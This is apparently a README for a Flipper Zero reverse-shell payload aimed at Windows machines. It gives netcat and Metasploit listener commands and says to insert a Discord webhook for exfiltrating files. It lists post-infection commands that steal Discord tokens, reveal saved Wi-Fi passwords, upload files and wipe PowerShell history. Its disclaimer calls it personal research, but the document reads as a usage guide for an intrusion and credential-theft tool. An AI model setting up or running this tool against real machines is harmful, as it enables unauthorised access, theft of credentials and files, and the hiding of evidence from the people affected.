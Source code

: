 # Reverse shell for Flipperzero

# Setup

1. listener setup
```
$ nc -nvlp <port_number>
```
or metasploit
```
$ use multi/handler
$ set payload windows/x64/shell/reverse_tcp
$ set lhost <ip address>
$ set lport <port number>
$ run
```

2. Insert the IP address and Port of your listener into the ReverseShell.txt file
3. Insert discord webhook for exfiltrating files to such in the ReverseShell.txt
   - use a url shortener for fast execution. 

# Disclaimer
I am not responsible for the usage of this utility, it is simply for researching and experimentation for myself. The user, YOU take full responsibility for your actions.

# Have fun!
Additional commands after infection
  /tgrizzly
  - exfiltrates discord tokens and saves them to C:\temp\output.txt
  /wifi
  - shows saved wifi passwords
  /discord <filename>
  - send the file to your discord webhook
  /clean
  - removes powershell history
